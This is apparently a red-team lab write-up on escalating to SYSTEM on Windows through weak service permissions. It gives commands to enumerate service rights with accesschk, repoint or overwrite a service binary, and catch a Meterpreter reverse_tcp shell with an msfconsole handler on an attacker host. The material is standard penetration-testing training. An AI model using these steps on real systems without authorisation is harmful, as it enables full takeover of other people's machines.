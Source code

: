 ```yaml
---
layout: post
title: "2024-06-18-weak service permissions"
date: 2024-06-18
categories: privilege-escalation
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /weak-service-permissions/
---
```


# Weak Service Permissions

This quick lab covers two Windows service misconfigurations that allow an attacker to elevate their privileges:

1. A low privileged user is allowed to change service configuration - for example change the service binary the service launches when it starts
2. A low privileged user can overwrite the binary the service launches when it starts

## 1. Changing Service Configuration

Let's enumerate services with `accesschk` from SysInternals and look for `SERVICE_ALL_ACCESS` or  `SERVICE_CHANGE_CONFIG` as these privileges allow attackers to modify service configuration:

{% code title="attacker@victim" %}
```
\\vboxsvr\tools\accesschk.exe /accepteula -ucv "mantvydas" evilsvc
or
\\vboxsvr\tools\accesschk.exe /accepteula -uwcqv "Authenticated Users" *
```
{% endcode %}

Below indicates that the user `mantvydas` has full access to the service:

![](<../../.gitbook/assets/Annotation 2019-05-21 205403.png>)

Let's modify the service and point its binary to our malicious binary that will get us a meterpreter shell when the service is launched:

{% code title="attacker@victim" %}
```
.\sc.exe config evilsvc binpath= "c:\program.exe"
```
{% endcode %}

![](<../../.gitbook/assets/Annotation 2019-05-21 205633.png>)

Let's fire up a multihandler in mfsconsole:

{% code title="attacker@kali" %}
```
msfconsole -x "use exploits/multi/handler; set lhost 10.0.0.5; set lport 443; set payload windows/meterpreter/reverse_tcp; exploit"
```
{% endcode %}

...and start the vulnerable service:

{% code title="attacker@victim" %}
```
.\sc.exe start evilsvc
```
{% endcode %}

..and enjoy the meterpreter session:

![](<../../.gitbook/assets/Annotation 2019-05-21 210027.png>)

Note that the meterpreter session will die soon since the meterpreter binary `program.exe` that the vulnerable service `VulnSvc` kicked off, is not a compatible service binary. To save the session, migrate it to another sprocess:

{% code title="attacker@kali" %}
```
run post/windows/manage/migrate
```
{% endcode %}

Even though the service failed, the session was migrated and saved:

![](<../../.gitbook/assets/Annotation 2019-05-21 210541.png>)

## 2. Overwriting Service Binary

From the first exercise, we know that our user has `SERVICE_ALL_ACCESS` for the service `evilsvc`. Let's check the service binary path:

{% code title="attacker@victim" %}
```
sc.exe qc evilsvc
```
{% endcode %}

![](<../../.gitbook/assets/Annotation 2019-05-21 210916.png>)

Let's check file permissions of the binary c:\service.exe using a native windows tool `icals` and look for (M)odify or (F)ull permissions for `Authenticated Users` or the user you currently have a shell with:

{% code title="attacker@victim" %}
```
icacls C:\service.exe
```
{% endcode %}

![](<../../.gitbook/assets/Annotation 2019-05-21 211128.png>)

Since c:\service.exe is (M)odifiable by any authenticated user, we can move our malicious binary c:\program.exe to c:\service.exe:

{% code title="attacker@victim" %}
```
cp C:\program.exe C:\service.exe
ls c:\
```
{% endcode %}

![](<../../.gitbook/assets/Annotation 2019-05-21 211232.png>)

...and get the meterpreter shell once `sc start evilsvc` is executed. Note that the shell will die if we do not migrate the process same way as mentioned earlier:

![](<../../.gitbook/assets/Annotation 2019-05-21 211349.png>)

Since services usually run under `NT AUTHORITY\SYSTEM`, our malicious binary gets executed with `SYSTEM` privileges:

![](<../../.gitbook/assets/Annotation 2019-05-21 212438.png>)
@spotheplanet
